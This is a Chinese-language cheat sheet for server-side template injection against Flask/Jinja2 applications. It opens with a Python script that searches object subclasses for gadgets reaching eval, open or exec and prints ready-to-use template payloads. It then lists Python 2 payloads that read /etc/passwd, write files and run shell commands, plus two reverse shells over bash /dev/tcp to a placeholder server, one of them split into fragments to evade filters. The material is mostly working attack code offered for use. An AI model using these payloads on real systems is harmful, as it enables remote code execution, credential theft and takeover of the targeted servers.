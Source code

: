 - Python3

```python
#!/usr/bin/python3
# coding=utf-8
# python 3.5
#jinja2模板
from flask import Flask
from jinja2 import Template
# Some of special names
searchList = ['__init__', "__new__", '__del__', '__repr__', '__str__', '__bytes__', '__format__', '__lt__', '__le__', '__eq__', '__ne__', '__gt__', '__ge__', '__hash__', '__bool__', '__getattr__', '__getattribute__', '__setattr__', '__dir__', '__delattr__', '__get__', '__set__', '__delete__', '__call__', "__instancecheck__", '__subclasscheck__', '__len__', '__length_hint__', '__missing__','__getitem__', '__setitem__', '__iter__','__delitem__', '__reversed__', '__contains__', '__add__', '__sub__','__mul__']
neededFunction = ['eval', 'open', 'exec']
pay = int(input("Payload?[1|0]"))
for index, i in enumerate({}.__class__.__base__.__subclasses__()):
    for attr in searchList:
        if hasattr(i, attr):
            if eval('str(i.'+attr+')[1:9]') == 'function':
                for goal in neededFunction:
                    if (eval('"'+goal+'" in i.'+attr+'.__globals__["__builtins__"].keys()')):
                        if pay != 1:
                            print(i.__name__,":", attr, goal)
                        else:
                            print("{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='" + i.__name__ + "' %}{{ c." + attr + ".__globals__['__builtins__']." + goal + "(\"[evil]\") }}{% endif %}{% endfor %}")
```

## 常见Payload
- Python2

```python
#python2有file
#读取密码
''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read()
#写文件
''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evil.txt', 'w').write('evil code')
#OS模块
system
''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].system('ls')
popen
''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].popen('ls').read()
#eval
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']("__import__('os').popen('id').read()")
#__import__
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['__import__']('os').popen('id').read()
#反弹shell
''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].popen('bash -i >& /dev/tcp/你的服务器地址/端口 0>&1').read()
().__class__.__bases__[0].__subclasses__()[59].__init__.__getattribute__('func_global'+'s')['linecache'].__dict__['o'+'s'].__dict__['sy'+'stem']('bash -c "bash -i >& /dev/tcp/xxxx/9999 0>&1"')
注意该Payload不能直接放在 URL 中执行 , 因为 & 的存在会导致 URL 解析出现错误，可以使用burp等工具
#request.environ
与服务器环境相关的对象字典
```
